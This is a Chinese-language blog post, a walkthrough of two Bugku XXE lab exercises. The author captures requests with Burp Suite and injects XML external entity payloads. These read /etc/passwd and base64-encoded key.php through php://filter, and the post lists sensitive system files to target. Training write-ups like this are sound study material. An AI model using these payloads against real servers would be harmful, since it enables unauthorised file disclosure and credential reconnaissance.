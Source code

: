 ```yaml
---
layout: post
title: 'XXE'
subtitle: 'XXE靶场练习'
date: 2021-05-26
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全 bugku刷题
---
```

### XXE靶场一
> 开启靶场并随便输入值登录
![](https://1024861435.github.io/assets/img/XXE3.png)

> 开启burpsuite抓包
![](https://1024861435.github.io/assets/img/XXE4.png)

> 发送到repeater模块修改发送包

  把key.php的内容进行base64编码并把值给test，然后&test 放回值

  <!DOCTYPE xxe[

<!ENTITY test SYSTEM

"php://filter/convert.base64-encode/resource=key.php">

]>
![](https://1024861435.github.io/assets/img/XXE1.png)

> 把放回的值进行base64解码
![](https://1024861435.github.io/assets/img/XXE2.png)

### XXE靶场二


> 开启靶场并随便输入值登录
> ![](https://1024861435.github.io/assets/img/XXE5.png)

> 开启burpsuite抓包
![](https://1024861435.github.io/assets/img/XXE7.png)

> 发送到repeater模块修改发送包，发现可以读取/etc/passwd文件的内容

 
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE ANY[

<!ENTITY xxe SYSTEM "file:///etc/passwd">

]>
![](https://1024861435.github.io/assets/img/XXE6.png)

>基于之前靶场存放key的方式，推测有key.php的文件
  
于是试着改xxe读该文件

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE ANY[

<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=key.php">

]>

发现读出内容
![](https://1024861435.github.io/assets/img/XXE8.png)

>把内容进行base64解码得到key

![](https://1024861435.github.io/assets/img/XXE9.png)

### 补充

/etc/hosts 储存域名解析的缓存

/etc/passwd 用户密码

/proc/net/arp 每个网络接口的arp表中dev包
